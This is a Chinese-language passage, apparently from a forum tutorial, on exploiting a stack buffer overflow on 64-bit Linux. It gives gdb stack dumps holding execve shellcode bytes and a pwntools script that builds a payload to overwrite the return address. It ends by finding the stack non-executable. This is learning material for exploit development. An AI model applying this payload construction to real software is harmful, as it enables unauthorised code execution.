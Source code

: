 在使用新的`payload`传输后，发现仍无法进行 PWN，观察栈上的返回地址后，发现`0xffffde40 0x00007fff`变成了`0xffffde40 0x686a7fff`，这显然与预期中使用 0 填充空间的情况有所误差。

```
x /20x $rbp
0x7fffffffde30: 0x42424242      0x42424242      0xffffde10      0x686a7fff
0x7fffffffde40: 0x622fb848      0x2f2f6e69      0x4850732f      0x7268e789
0x7fffffffde50: 0x81010169      0x01012434      0xf6310101      0x5e086a56
0x7fffffffde60: 0x56e60148      0x31e68948      0x583b6ad2      0x0000050f
0x7fffffffde70: 0x55554040      0x00000002      0x555551a6      0x00005555

```

观察`686a`，不难知道，它来自于`shellcode`，在目前的构造中`shellcode`，位于返回地址的后方。

为了让返回地址变成正常的格式，需要重新思考存放`shellcode`的位置。假如将`shellcode`向前放置，就需要本地缓冲区变量到返回地址间的空间是足够容纳`shellcode`的，现在的空间显然是不够的，所以`shellcode`前置的方法需要增大本地缓冲区变量的容量。

假如不将`shellcode`前置，前面通过观察`argv`可以知道，`argv`所在的栈空间会将一部分的命令行环境变量放进来，因此提前设置好`shellcode`的环境变量，然后再跳过去也是一种方案。

这里先采用`shellcode`前置的方案。

![](https://bbs.kanxue.com/upload/attach/202406/1000123_CRJC838T83NBGAC.webp)

### 4.4.5 不可执行的栈

再次调整`payload`。

```
rbp_addr = 0x7fffffffde00
shellcode_gap = 0x8 * 2 # 父函数栈底指针占用空间 + 返回地址占用空间，0x8为64位下指针类型数据占用的空间大小
hijack_ret = pwn.p64(rbp_addr - 0x70) # 0x70为本地缓冲区变量到栈底的偏移值
payload = '$(echo -e \"{0}\")'.format(str(shellcode_raw_bytes)[2:-1])
payload += 'A' * (0x70 -0x30) # 0x30是shellcode的长度，使用字符A覆盖本地缓冲区变量到栈底的位置
payload += 'B' * 0x8
payload += '$(echo -e \"{0}\")'.format(str(hijack_ret)[2:-1])

```

发现仍无法 PWN 成功，在挂到调试器上观察后，发现已经顺利的抵达`shellcode`的所在位置，但是一执行就又崩掉了。

难道栈上的指令是不可执行的？

```
1: x/i $rip
=> 0x7fffffffdd90:      push   $0x68
(gdb)
 
Program received signal SIGSEGV, Segmentation fault.

```

怀着这个疑问，我查看了进程的`maps`文件，`maps`文件位于 Linux 中的`proc`目录，其中对应进程目录下记录了各种与进程相关的信息，而`maps`文件就是进程的内存布局图。

在查看`maps`文件后，可以确认现在的栈的确是不可执行的。

```
7ffffffde000-7ffffffff000 rw-p 00000000 00:00 0                          [stack]

```
